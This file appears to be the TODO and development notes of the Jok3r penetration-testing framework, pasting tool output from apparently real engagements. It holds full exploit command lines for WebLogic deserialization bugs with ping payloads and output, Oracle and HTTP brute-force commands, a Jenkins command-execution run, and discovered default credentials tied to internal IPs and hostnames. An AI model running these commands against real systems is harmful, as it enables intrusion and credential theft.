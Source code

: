 =====
TODO
=====


Docker Environment
==================
* IMPORTANT: RE INSTALL odat !! 


BUG FIXES
===============================================================================

- db > services --up
  File "/root/jok3r/lib/requester/Condition.py", line 125, in __translate_up
    val = (value.lower() == 'true')

- db > service -S -> recherche par url semble pas marcher

- db > services - ip ranges selection bug





IMPROVEMENTS / NEW FEATURES
===============================================================================
- Ctrl+C -> add possibility to switch fast mode on/off

- AttackProfiles:
    - weak-creds (weak, common, default)
        http -> changeme, htaccess bruteforce quick with common creds admin:admin, admin:password...
        mssql -> msdat passwordguesser sa:sa sa:
        oracle -> tnscmd pour sid, odat passwordguesser avec sid
        ajp -> ajp bf
        ...

    - advanced-creds-bruteforce
        (include weak-creds checks)

    - fast-scan
    - vuln-lookup-banner (require banner grabbing enabled or banner already retrieved in imported nmap scan)

    - web-scan-appserver
    - web-scan-cms
    - web-discovery
    - web-discovery-fast


- discovery-* checks:
    - appserver-wordlist
    - cms-wordlist
    - language-wordlist (per language => lots of work to produce wordlists for each language + add generic ie HTML, XML, LOG, TXT...)
    - general-minimal-wordlist
    - general-wordlist (raft directory)

- Auth types:
    - supported auth-type => only type that support various status/lvl (can be added in cmdline)
    - can accept other values (eg creds trouvés par changeme) and can be displayed in db>creds
    - method for creds retrieval in postrun

* Reporting HTML:
    * Template https://www.jqueryscript.net/menu/Bootstrap-Sidebar-Extension-With-jQuery-CSS-CSS3.html
    * https://www.jqueryscript.net/demo/Bootstrap-Sidebar-Extension-With-jQuery-CSS-CSS3/
    * http://www.finalhints.com/live-search-in-html-table-using-jquery/
    * At the end, prompt to open in browser like in eyewitness

* Do not re-run checks already done

* Nmap import: filter on nmap results to add






SMART MODULES / REGEXP
===============================================================================
- update regexp version number => ne doit pas finir par un point

- clusterd :
  InsecureRequestWarning)
11-19 03:53PM] Making GET request to https://lons00115973.euro.net.intra:443/console with arguments {'verify': False, 'timeout': 5.0}
[2018-11-19 03:53PM] Checking weblogic version 8.1 WebLogic Admin Console...
[2018-11-19 03:53PM] Making GET request to https://lons00115973.euro.net.intra:443/console with arguments {'verify': False, 'timeout': 5.0}
[2018-11-19 03:53PM] Matched 2 fingerprints for service weblogic
[2018-11-19 03:53PM]    WebLogic Admin Console (version 12)
[2018-11-19 03:53PM]    WebLogic Admin Console (https) (version 12)
[2018-11-19 03:53PM] Fingerprinting completed.
[2018-11-19 03:53PM] Loading auxiliary for 'weblogic'...
[2018-11-19 03:53PM]   Gather WebLogic info (--wl-info)
[2018-11-19 03:53PM]   List deployed apps (--wl-list)
[2018-11-19 03:53PM]   Obtain SMB hash (--wl-smb)
[2018-11-19 03:53PM] Finished at 2018-11-19 03:53PM


- changeme with empty creds:
[16:40:23] Configured protocols: http
[16:40:23] Loading creds into queue
[16:40:23] Jenkins body matched: <title>Dashboard \[Jenkins\]</title>
[16:40:23] Fingerprinting completed
[16:40:23] [+] Found Jenkins default cred : at http://10.243.134.22:8080/
[16:40:23] Scanning Completed
[16:40:24] Found 1 default credentials

Name     Username    Password    Target                      Evidence
-------  ----------  ----------  --------------------------  ----------
Jenkins                          http://10.243.134.22:8080/


- Add product detection in ajp:
        [>] [Recon][Check 02/02] tomcat-version > Fingerprint Tomcat version through AJP
        match auth lvl: True
        match specific: True
        [*] Run command #01

                                                                                                                                                                                                              
        cmd> python2.7 tomcat.py -v --port 8009 version 10.4.16.53                                                                                                                                            

        [2018-11-16 15:14:13.524] DEBUG    Getting resource at ajp13://10.4.16.53:8009/blablablablabla
        Apache Tomcat/7.0.27



- loubia successful :
[>] [Exploit][Check 07/11] weblogic-t3-deserialize-cve2015-4852 > Exploit Java deserialization in Weblogic T3(s) (CVE-2015-4852)
match auth lvl: True
match specific: True
[*] Command #01 is matching current target's context: {'server': ['weblogic']}

[?] Run command #01 ? [Y/n/t/w/q] 


                                                                                                                                                                                                      
cmd> echo "[~] Will try to ping local IP = 10.250.58.108"; echo "[~] Running tcpdump in background..."; sudo sh -c "tcpdump -U -i any -w /tmp/dump.pcap icmp &" ; python2.7 loubia.py 10.2.211.136 443 -s -o unix -c '/bin/ping -c 4 10.250.58.108' -v; python2.7 loubia.py 10.2.211.136 443 -s -o win -c 'ping -n 4 10.250.58.108' -v; echo "[~] Wait a little bit..."; sleep 3; PID=$(ps -e | pgrep tcpdump); echo "[~] Kill tcpdump"; sudo kill -9 $PID; sleep 2; echo "[~] Captured ICMP traffic:"; echo; sudo tcpdump -r /tmp/dump.pcap; echo "[~] Delete capture"; sudo rm /tmp/dump.pcap                   

[~] Will try to ping local IP = 10.250.58.108
[~] Running tcpdump in background...
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
[INFO] Connecting to 10.2.211.136 port 443

[INFO] Sending t3 headers:
t3s 10.3.6
AS:255
HL:19


[INFO] Received t3 handshake response:
HELO:12.1.3.0.false
AS:2048
HL:19
MS:10000000


[INFO] Supplied payload: /bin/ping -c 4 10.250.58.108

[INFO] Final payload 001c2f62696e2f70696e67202d6320342031302e3235302e35382e313038

[INFO] Malicious packet sent

[INFO] Connecting to 10.2.211.136 port 443

[INFO] Sending t3 headers:
t3s 10.3.6
AS:255
HL:19


[INFO] Received t3 handshake response:
HELO:12.1.3.0.false
AS:2048
HL:19
MS:10000000


[INFO] Supplied payload: ping -n 4 10.250.58.108

[INFO] Final payload 001770696e67202d6e20342031302e3235302e35382e313038

[INFO] Target os is win: using "cmd.exe /c"

[INFO] Malicious packet sent

[~] Wait a little bit...
[~] Kill tcpdump
[~] Captured ICMP traffic:

reading from file /tmp/dump.pcap, link-type LINUX_SLL (Linux cooked)
15:54:24.036988 IP lons00115973.uk.net.intra > 10.250.58.108: ICMP echo request, id 1, seq 1, length 40
15:54:24.037023 IP 10.250.58.108 > lons00115973.uk.net.intra: ICMP echo reply, id 1, seq 1, length 40
15:54:25.038770 IP lons00115973.uk.net.intra > 10.250.58.108: ICMP echo request, id 1, seq 2, length 40
15:54:25.038825 IP 10.250.58.108 > lons00115973.uk.net.intra: ICMP echo reply, id 1, seq 2, length 40
15:54:26.040031 IP lons00115973.uk.net.intra > 10.250.58.108: ICMP echo request, id 1, seq 3, length 40
15:54:26.040071 IP 10.250.58.108 > lons00115973.uk.net.intra: ICMP echo reply, id 1, seq 3, length 40
[~] Delete capture


- example banners:
- 767 | 10.6.4.23      | 1521 | tcp   | oracle  | product: Oracle TNS listener version: 12.2.0.1.0 extrainfo: |     |         | 0      |       |
|       |                |      |       |         | unauthorized                                                |     |         |        |       |
| 18912 | 10.6.32.121    | 1521 | tcp   | oracle  | product: Oracle TNS listener version: 12.2.0.1.0 extrainfo: |     |         | 0      |       |
|       |                |      |       |         | unauthorized                                                |     |         |        |       |
| 19732 | 10.243.136.130 | 1521 | tcp   | oracle  | product: Oracle TNS listener version: 11.2.0.2.0 extrainfo: |     |         | 0      |       |
|       |                |      |       |         | unauthorized      

-  21503 | 10.190.10.32   | 443  | tcp   | http    | product: Apache Tomcat version: 8.5.8                 | https://10.190.10.32:443   |         | 0      |       |
| 21519 | 10.190.10.41   | 443  | tcp   | http    | product: Apache Tomcat/Coyote JSP engine version: 1.1 | https://10.190.10.41:443   |         | 0      |       |
| 21521 | 10.190.10.42   | 443  | tcp   | http    | product: Apache Tomcat/Coyote JSP engine version: 1.1 



- smartmodule -> webdav
    _http-iis-webdav-vuln: WebDAV is DISABLED


- MS17-010 not detected: ==> ) -> \) + LIKELY
  
        if re.search('Microsoft Windows system vulnerable to remote code execution \(MS08-067\)\s*(\r\n|\r|\n)\|\s*State: (LIKELY )?VULNERABLE', 
                     cmd_output, re.IGNORECASE):
            r.add_option('vuln-ms08-067', 'true')

        if re.search('Remote Code Execution vulnerability in Microsoft SMBv1 servers \(ms17-010\)\s*(\r\n|\r|\n)\|\s*State: (LIKELY )?VULNERABLE',
                     cmd_output, re.IGNORECASE):
            r.add_option('vuln-ms17-010', 'true')

        if re.search('SAMBA Remote Code Execution from Writable Share\s*(\r\n|\r|\n)\|\s*State: (LIKELY )?VULNERABLE', cmd_output, re.IGNORECASE):
            r.add_option('vuln-sambacry', 'true')



* angularjs -> boolean (angularjs can be used with php,asp...)
*  smartmodule -> webdav
    _http-iis-webdav-vuln: WebDAV is DISABLED

* - ftp patator update smart:
14:04:27 patator    INFO - 502   29     0.006 | anonymous:                         |     1 | PASS command not implemented.
14:04:39 patator    INFO - 421   53     0.008 | anonymous:                         |     1 | Too many users logged in, closing control connection 

* - ftp update smart, add anonymous creds when nmap detect + context req sur bruteforce:
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack HP JetDirect ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_d-w--w--w-   2 JetDirect  public         512 Feb 14  1999 PORT1 [NSE: writeable]

* - add postrun tnscmd_sid
- add re.IGNORECASE tns sid
- add sid detection:
[+] Data received by the database server: ''\x00 \x00\x00\x02\x00\x00\x00\x016\x00\x01\x08\x00\x7f\xff\x00\x01\x01]\x00 \r\x08\x00\x00\x00\x00\x00\x00\x00\x00\x01g\x00\x00\x06\x00\x00\x00\x00\x00(DESCRIPTION=(TMP=)(VSNNUM=153093632)(ERR=0)(ALIAS=LISTENER)(SECURITY=OFF)(VERSION=TNSLSNR for IBM/AIX RISC System/6000: Version 9.2.0.6.0 - Production)(START_DATE=10-NOV-2018 17:56:38)(SIDNUM=1)(LOGFILE=/apps/oracle/9.2.0/network/log/listener.log)(PRMFILE=/apps/oracle/adm/network/listener.ora)(TRACING=off)(UPTIME=23928489)(SNMP=OFF)(PID=7995588))\x02Q\x00\x00\x06\x00\x00\x00\x00\x00(ENDPOINT=(HANDLER=(HANDLER_MAXLOAD=0)(HANDLER_LOAD=0)(ESTABLISHED=0)(REFUSED=0)(HANDLER_ID=7A5359F37007-00C4-E053-9F32E94200C4)(PRE=any)(SESSION=NS)(DESCRIPTION=(ADDRESS=(PROTOCOL=tcp)(HOST=parva7301586)(PORT=1521))))),,(SERVICE=(SERVICE_NAME=METHFRP1_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=METHFRP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=ROG2WDP0_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=ROG2WDP0)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=RSS0WDP1)(INSTANCE=(INSTANCE_NAME=RSS0WDP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,''

- Check this case where sid=LISTENER ??

         cmd> python2.7 odat.py tnscmd -s 10.190.98.154 -p 1521 -d any --ping -v                                                                                                                               

        16:49:05 INFO -: alias list emptied
        16:49:05 INFO -: Data received thanks to the 'ping' cmd: '\x00A\x00\x00\x04\x00\x00\x00"\x00\x005(DESCRIPTION=(TMP=)(VSNNUM=0)(ERR=0)(ALIAS=LISTENER))'

        [1] (10.190.98.154:1521): Searching ALIAS on the 10.190.98.154 server, port 1521
        [+] 1 ALIAS received: ['LISTENER']. You should use this alias (more or less) as Oracle SID.

                                                                                                                                                                                                              


        [*] [SMART] Running post-check method "tnscmd_sid" ...
        [+] [SMART] New detected option: sid = LISTENER

        [?] Run command #02 ? [Y/n/t/w/q] q




- add postrun tnscmd_sid
- add re.IGNORECASE tns sid
- add sid detection:
[+] Data received by the database server: ''\x00 \x00\x00\x02\x00\x00\x00\x016\x00\x01\x08\x00\x7f\xff\x00\x01\x01]\x00 \r\x08\x00\x00\x00\x00\x00\x00\x00\x00\x01g\x00\x00\x06\x00\x00\x00\x00\x00(DESCRIPTION=(TMP=)(VSNNUM=153093632)(ERR=0)(ALIAS=LISTENER)(SECURITY=OFF)(VERSION=TNSLSNR for IBM/AIX RISC System/6000: Version 9.2.0.6.0 - Production)(START_DATE=10-NOV-2018 17:56:38)(SIDNUM=1)(LOGFILE=/apps/oracle/9.2.0/network/log/listener.log)(PRMFILE=/apps/oracle/adm/network/listener.ora)(TRACING=off)(UPTIME=23928489)(SNMP=OFF)(PID=7995588))\x02Q\x00\x00\x06\x00\x00\x00\x00\x00(ENDPOINT=(HANDLER=(HANDLER_MAXLOAD=0)(HANDLER_LOAD=0)(ESTABLISHED=0)(REFUSED=0)(HANDLER_ID=7A5359F37007-00C4-E053-9F32E94200C4)(PRE=any)(SESSION=NS)(DESCRIPTION=(ADDRESS=(PROTOCOL=tcp)(HOST=parva7301586)(PORT=1521))))),,(SERVICE=(SERVICE_NAME=METHFRP1_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=METHFRP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=ROG2WDP0_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=ROG2WDP0)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=RSS0WDP1)(INSTANCE=(INSTANCE_NAME=RSS0WDP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,''

- Check this case where sid=LISTENER ??

         cmd> python2.7 odat.py tnscmd -s 10.190.98.154 -p 1521 -d any --ping -v                                                                                                                               

        16:49:05 INFO -: alias list emptied
        16:49:05 INFO -: Data received thanks to the 'ping' cmd: '\x00A\x00\x00\x04\x00\x00\x00"\x00\x005(DESCRIPTION=(TMP=)(VSNNUM=0)(ERR=0)(ALIAS=LISTENER))'

        [1] (10.190.98.154:1521): Searching ALIAS on the 10.190.98.154 server, port 1521
        [+] 1 ALIAS received: ['LISTENER']. You should use this alias (more or less) as Oracle SID.

                                                                                                                                                                                                              


        [*] [SMART] Running post-check method "tnscmd_sid" ...
        [+] [SMART] New detected option: sid = LISTENER

        [?] Run command #02 ? [Y/n/t/w/q] q



- ftp patator update smart:
14:04:27 patator    INFO - 502   29     0.006 | anonymous:                         |     1 | PASS command not implemented.
14:04:39 patator    INFO - 421   53     0.008 | anonymous:                         |     1 | Too many users logged in, closing control connection 

- ftp update smart, add anonymous creds when nmap detect + context req sur bruteforce:
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack HP JetDirect ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_d-w--w--w-   2 JetDirect  public         512 Feb 14  1999 PORT1 [NSE: writeable]



- changeme (ATTENTION, possibilite empty creds : ":"):

    
Loaded 113 default credential profiles
Loaded 324 default credentials

[13:37:15] Configured protocols: http
[13:37:15] Loading creds into queue
[13:37:18] Dell iDRAC body matched: <title>Integrated Dell Remote Access Controller
[13:37:18] Fingerprinting completed
[13:37:20] [+] Found Dell iDRAC default cred root:calvin at https://10.253.27.106:443/data/login
[13:37:20] Scanning Completed


[13:37:20] Found 1 default credentials

Name        Username    Password    Target                                Evidence
----------  ----------  ----------  ------------------------------------  ----------
Dell iDRAC  root        calvin      https://10.253.27.106:443/data/login




-----


[14:58:26] Invalid Apache Tomcat Host Manager default cred admin:tomcat at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred root:root at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred role1:role1 at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred tomcat:changethis at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred role:changethis at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred admin:j5Brn9 at http://10.4.16.198:8080/host-manager/html
[14:58:26] [+] Found Apache Tomcat Host Manager default cred QCC:QLogic66 at http://10.4.16.198:8080/host-manager/html
[14:58:26] [+] Found Apache Tomcat default cred QCC:QLogic66 at http://10.4.16.198:8080/manager/html
[14:58:27] Invalid Apache Tomcat Host Manager default cred role1:tomcat at http://10.4.16.198:8080/host-manager/html
[14:58:27] Scanning Completed


[14:58:27] Found 2 default credentials

Name                        Username    Password    Target                                     Evidence
--------------------------  ----------  ----------  -----------------------------------------  ----------
Apache Tomcat Host Manager  QCC         QLogic66    http://10.4.16.198:8080/host-manager/html
Apache Tomcat               QCC         QLogic66    http://10.4.16.198:8080/manager/html








CHECKS CORRECTIONS
===============================================================================


- samba-rce-cve2015-0240 only if os = *linux*

- Correct path ysoserial:
/jok3r/toolbox/http/exploit-weblogic-cve2017-3248# python2.7 exploits/weblogic/exploit-CVE-2017-3248-bobsecq.py -t 10.2.211.136 -p 443 --ssl --check --ysopath /root/jok3r/toolbox/multi/ysoserial/ysoserial-master.jar


- Mettre /bin/bash -c pour utilisation de <<< + single quote !! dans :
root@kali:~/jok3r/toolbox/http/exploit-weblogic-cve2018-2893# echo "[~] Will try to ping local IP = 10.250.58.108"; echo "[~] Running tcpdump in background..."; sudo sh -c "tcpdump -U -i any -w /tmp/dump.pcap icmp &" ; java -jar ysoserial-cve-2018-2893.jar JRMPClient4 "/bin/ping -c 4 10.250.58.108" > /tmp/poc4.ser; python2.7 weblogic.py 10.2.211.136 443 /tmp/poc4.ser; echo "[~] Wait a little bit..."; sleep 3; PID=$(ps -e | pgrep tcpdump); echo "[~] Kill tcpdump"; sudo kill -9 $PID; sleep 2; echo "[~] Captured ICMP traffic:"; echo; sudo tcpdump -r /tmp/dump.pcap; echo "[~] Delete capture"; sudo rm /tmp/dump.pcap; rm /tmp/poc4.ser

-ODAT: simple quote après /bin/bash !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!! (sinon $var non prise en compte)
/bin/bash -c 'export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d":" -f1`; export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib; export PATH=$ORACLE_HOME/bin:$PATH; echo $ORACLE_HOME; python2.7 odat.py passwordguesser -s 10.2.208.173 -p 1521 -d LISTENER -vv --force-retry --accounts-file accounts/accounts_multiple.txt'


- dirsearch : -t 40 --timeout=

- angularjs -> boolean (angularjs can be used with php,asp...)


- tool ajpy=> add option --old-version + list applications

- ajp settings: change dir wordlists
tool        = ajpy
command_1   = python2.7 tomcat.py -v --port [PORT] bf -U [WORDLISTSDIR]/services/http/creds/app-servers/tomcat-usernames.txt -P [WORDLISTSDIR]/services/http/creds/app-servers/tomcat-passwords.txt
postrun     = ajpy_valid_creds

- add --timeout to dirsearch

- odat add -v : python2.7 odat.py tnscmd -s 10.14.17.218 -p 1575 -d any --ping -v

- Replace patator by hydra (more mature, easier to parse outputs, better output)

- DOMI-OWNED  => fonctionne sur 5, 6 et v8

- bug dirhunt
    cmd> dirhunt https://www.correspondant-assurance.fr/bnppere                                                                                                                                           

    Traceback (most recent call last):
      File "/usr/local/bin/dirhunt", line 11, in <module>
        load_entry_point('dirhunt==0.5.1', 'console_scripts', 'dirhunt')()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 484, in load_entry_point
        return get_distribution(dist).load_entry_point(group, name)
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2707, in load_entry_point
        return ep.load()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2325, in load
        return self.resolve()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2331, in resolve
        module = __import__(self.module_name, fromlist=['__name__'], level=0)
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/management.py", line 13, in <module>
        from dirhunt.crawler import Crawler
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/crawler.py", line 16, in <module>
        from dirhunt.sessions import Sessions
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/sessions.py", line 5, in <module>
        from proxy_db.models import Proxy
    ModuleNotFoundError: No module named 'proxy_db.models'


- ./optionsbleed -n 40 -a -u https://www.correspondant-epargne.fr/tpe 
No response , Normal ?

- add exploitations avec clusterd

- [check_mysql-interesting-tables-columns] add context


* odat add -v : python2.7 odat.py tnscmd -s 10.14.17.218 -p 1575 -d any --ping -v

- Add option --webdir-wordlist for check discovery-general-wordlist 




CHECKS ADDING
===============================================================================
- https://github.com/SecWiki/CMS-Hunter
- Add Hydra

- Jenkins scripts:
Attention; TARGETURI / et /jenkins/

msf auxiliary(scanner/http/jenkins_command) > show options 

Module options (auxiliary/scanner/http/jenkins_command):


msf auxiliary(scanner/http/jenkins_command) > run

[+] [2018.11.19-14:37:28] 10.2.153.123:8080     nt authority\system
[*] [2018.11.19-14:37:28] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jenkins_command) > 
msf auxiliary(scanner/http/jenkins_command) > 
msf auxiliary(scanner/http/jenkins_command) > set TARGETURI /jenkins/
TARGETURI => /jenkins/
msf auxiliary(scanner/http/jenkins_command) > run

[-] [2018.11.19-14:37:51] 10.2.153.123:8080     This system is not running Jenkins-CI at /jenkins/
[*] [2018.11.19-14:37:51] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jenkins_command) > set TARGETURI /
TARGETURI => /

- Jenkins deserialize

- add exploit/linux/misc/jenkins_java_deserialize (attention: os linux)
- add exploit/windows/misc/ibm_websphere_java_deserialize (os win)
- add auxiliary/scanner/http/jenkins_login
- add exploit/windows/misc/ibm_websphere_java_deserialize
- add https://github.com/Coalfire-Research/java-deserialization-exploits (websphere rce, jenkins rce...)
- add exploit/multi/http/jenkins_script_console
- add msfmodules for different appservers.....
- RCE Tomcat CVE-2017-12617 /usr/share/exploitdb/exploits/jsp/webapps/42966.py
    WARNING: Add verify=False !
            if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                print bcolors.WARNING+url+' it\'s Vulnerable to CVE-2017-12617'+bcolors.ENDC
                print bcolors.WARNING+url+"/"+checker+bcolors.ENDC
                
        else:
            print 'Not Vulnerable to CVE-2017-12617 '


- add bruteforce htaccess hydra if 401 unauthorized returned in headers
hydra -l admin -P ~/github/jok3r/wordlists/passwords/pass_medium.txt -e ns -t 10 -f -s -v -V 10.190.136.194  http-get /
> GET / HTTP/1.1
> Host: 10.190.136.194
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 401 Unauthorized
< Content-Type: text/html
< Server: Microsoft-IIS/8.0
< WWW-Authenticate: Negotiate
< WWW-Authenticate: NTLM
< X-Powered-By: ASP.NET
< Date: Fri, 23 Nov 2018 10:15:48 GMT
< Content-Length: 1293


- Sharepoint -> https://github.com/TestingPens/SPartan

- check ms17-010 exploit multi platform

- add ssh cve enum
- add ssh libssh vuln

- ftp postexploit list dir

* Weblogic CVE-2018-2628 https://github.com/tdy218/ysoserial-cve-2018-2628
* https://github.com/chadillac/mdns_recon
* nfsshell (sudo apt-get install libreadline-dev ; make)
* https://github.com/hegusung/RPCScan.git
* https://www.magereport.com
* https://github.com/AlisamTechnology/PRESTA-modules-shell-exploit/blob/master/PRESTA-shell-exploit.pl
* https://github.com/breenmachine/JavaUnserializeExploits
* https://github.com/DanMcInerney/pentest-machine

* Better exploit for MS17-010 (support for more win versions, only Win7 and 2008 R2 for now)

* For all bruteforce with 'auth_status': NO_AUTH -> create command with username known 

* cve jquery
* cve ssh
* vulners-lookup
* cvedetails-lookup
* wordlists per language
* jndiat
* check https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html
* correct start module http 


* Java-RMI -> handle case windows ping -n


- Sharepoint -> https://github.com/TestingPens/SPartan

- tool ajpy=> add option --old-version + list applications

* Improve wordlist quality:
    * passwords
    * wordlist per language
    * wordlist per cms
    * wordlist per server
    * web files/directories:
        * https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content
        * https://github.com/xajkep/wordlists
        * https://www.netsparker.com/blog/web-security/svn-digger-better-lists-for-forced-browsing/
        * Administration: https://github.com/fnk0c/cangibrina/tree/master/wordlists



WORDLISTS ADDING
===============================================================================

- Idea for wordlist services creds: https://github.com/x90skysn3k/brutespray/tree/master/wordlist

- Very Minimalist dirs wordlists

root@kali:~/jok3r/toolbox/http/dirsearch# cat dirs_minimalist.txt 
account
accounts
adm
admin
_admin
Admin
ADMIN
admin2
adminarea
administrator
api
app
appli
application
applis
auth
back
backup
_backup
bak
cache
_cache
common
component
components
conf
config
configuration
control
controller
controllers
core
data
debug
dev
development
doc
docs
document
download
downloads
Downloads
en
error
file
files
Files
fr
ftp
help
html
image
images
img
inc
Inc
include
_include
includes
_includes
Includes
install
lib
manager
modules
old
page
pages
pdf
phpmyadmin
plugins
priv
_priv
_private
pub
public
_public
report
reports
require
script
scripts
secure
service
services
share
site
sites
sql
src
stat
stats
status
temp
Temp
template
templates
test
Test
test1
test2
testing
tests
tmp
tool
tools
tpl
update
updates
upload
uploads
Uploads
user
users
util
utils
webadmin
WEB-INF
www
xml
xmlrpc












- jok3r-script for oracle install:

  - change url + reinstall
  wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient12.2-sqlplus_12.2.0.1.0-2_amd64.deb
wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient18.3-basic_18.3.0.0.0-2_amd64.deb
wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient18.3-devel_18.3.0.0.0-2_amd64.deb
sudo dpkg -i oracle-instantclient18.3-basic_18.3.0.0.0-2_amd64.deb
sudo dpkg -i oracle-instantclient12.2-sqlplus_12.2.0.1.0-2_amd64.deb

- add in dockerfile:

  export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d':' -f1`
  export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
  export PATH=$ORACLE_HOME/bin:$PATH
  
 - autre bug:
17:17:05 DEBUG -: Try to connect with APPLYSYSPUB/<UNKNOWN>
17:17:05 DEBUG -: Oracle connection string: APPLYSYSPUB/<UNKNOWN>@10.190.98.115:1521/LISTENER
17:17:05 DEBUG -: Error during connection with this account: `ORA-12514: TNS:listener does not currently know of service requested in connect descriptor`
17:17:05 DEBUG -: Try to connect with APPS/APPS
